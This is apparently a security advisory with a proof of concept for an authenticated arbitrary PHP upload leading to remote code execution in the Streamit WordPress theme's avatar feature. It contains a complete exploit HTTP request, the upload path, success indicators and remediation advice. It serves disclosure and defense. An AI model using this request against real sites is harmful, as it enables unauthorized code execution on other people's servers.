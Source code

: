 # 🚀 Streamit WordPress Theme - Subscriber File Upload to RCE  

📌 **Product Information**    
**Platform:**: WordPress (Theme: Streamit)  
**Affected Feature**: Profile Avatar Upload  
**Tested Vulnerability**: Arbitrary PHP File Upload (Subscriber+)  
**CVE**: Not Assigned  
**Severity**: High (Authenticated File Upload => Remote Code Execution)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: June 12, 2025  
**Researcher**: Grac3  
**Link Product**: https://themeforest.net/item/streamit-video-streaming-wordpress-theme/29772881  

---

⚠️ **Summary of the Vulnerability**  
The Streamit WordPress Theme allows logged-in users with *subscriber* role to change their avatar via the following endpoint:

example :
```
/membership-account/your-profile/?view=change-password
```

However, the form handling this request does not properly validate uploaded file types when the `update_avatar` action is set. By abusing this, attackers can upload PHP files disguised as images and trigger Remote Code Execution.

## 🧪 Proof of Concept (PoC)  
**Sample POST Request:**

```
POST /membership-account/your-profile/?view=change-password HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKW4qPnvjzFXSGYQM
Cookie: [VALID SUBSCRIBER COOKIE]

------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="user_avatar"; filename="bq.php"
Content-Type: image/jpeg

ÿØÿà
<?php echo 'HELLO WORLD'; ?>
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="update_avatar"

Change
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wpnonce"

[VALID_NONCE]
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wp_http_referer"

/membership-account/your-profile/?view=change-password
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="action"

update-avatar
------WebKitFormBoundaryKW4qPnvjzFXSGYQM--
```

📁 **File Upload Behavior**
- The uploaded file must include the parameter `update_avatar` to be processed.
- Upon success, the file is saved in:

```
/wp-content/uploads/[year]/[month]/bq.php
```

✅ **Indicators of Success:**
- Status HTTP/2 200 OK
- Visiting `/wp-content/uploads/2025/06/bq.php` will execute the payload and print `HELLO WORLD`.

## 🔍 Where’s the Flaw?
- The file type is only superficially validated by MIME type.
- No server-side checks to restrict executable file types (like `.php`).
- Action `update_avatar` allows upload without checking user capabilities beyond basic authentication.

## 🔐 Recommendation
- Enforce strict MIME and extension checks server-side for file uploads.
- Restrict `update-avatar` functionality to roles above Subscriber.
- Disallow `.php`, `.phtml`, and similar dangerous file types explicitly.
- Monitor and log all uploads, especially in `/wp-content/uploads`.

## 📁 Script Features (Optional)
You may create a Python script to:
- Authenticate as a Subscriber.
- Upload a PHP payload via avatar change.
- Automatically retrieve uploaded path.
- Trigger uploaded file and verify execution.

## ⚠️ Disclaimer  
This information is provided for **educational and authorized testing** purposes only.  
**Do not** use it on systems without proper authorization.  
Unauthorized exploitation is illegal and unethical.

